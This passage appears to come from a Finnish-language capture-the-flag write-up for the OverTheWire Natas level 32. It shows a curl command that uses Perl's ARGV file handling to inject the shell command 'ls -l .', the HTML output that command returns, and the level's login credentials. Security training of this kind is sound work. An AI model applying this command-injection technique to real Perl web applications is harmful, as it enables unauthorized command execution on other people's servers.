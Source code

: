 ```

</style>


<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```


**Eteenpäin**:

```
curl -u natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B "http://natas32.natas.labs.overthewire.org/index.pl?ls%20-l%20.%20|" -F "file=ARGV" -F "file=@/home/kali/Downloads/Book1.csv;type=text/csv"
```

Nyt tässä suoritettiin sama kuin aikaisempi komento, mutta kummottiin jälkimmäisestä osasta kuin `index.pl?` eteenpäin jossa sijoitetin jotakin **linux komentojen injection parametriä**. 

Tulostuksena ainakin näyttävän Linux kirjastojen/tiedostojen oikeuksia, root ja jne, että koska luotu ja aika ja tässä osassa meitä kiinnostaa `</td></tr><tr><td>-rwsrwx--- 1 root    natas32 16096 Aug 15 13:06 getpassword`

- `ls%20-l%20.%20|`, joka vastaa komentoa `ls -l .`
- Tämä näyttää nykyisen hakemiston sisällön pitkällä listauksella (mm. tiedosto-oikeudet ja omistajat). Tällä varmistan, että komentojen suoritus toimii ja että getpassword-tiedosto on olemassa ja SUID-root.
- Sama kuin linux ympäristössä kun syöttää komennon `$ls` - niin tarkistaa tämän polun hakemiston tiedostoa ja oikeutta.

```
┌──(kali㉿kali)-[~]
└─$ curl -u natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B "http://natas32.natas.labs.overthewire.org/index.pl?ls%20-l%20.%20|" -F "file=ARGV" -F "file=@/home/kali/Downloads/Book1.csv;type=text/csv"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<!-- Bootstrap -->
<link href="bootstrap-3.3.6-dist/css/bootstrap.min.css" rel="stylesheet">
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas32", "pass": "<censored>" };</script>
<script src="sorttable.js"></script>
</head>
<script src="bootstrap-3.3.6-dist/js/bootstrap.min.js"></script>

<!-- 
    morla/10111 
    shouts to Netanel Rubin    
-->

<style>
#content {
    width: 900px;
}
.btn-file {
    position: relative;
```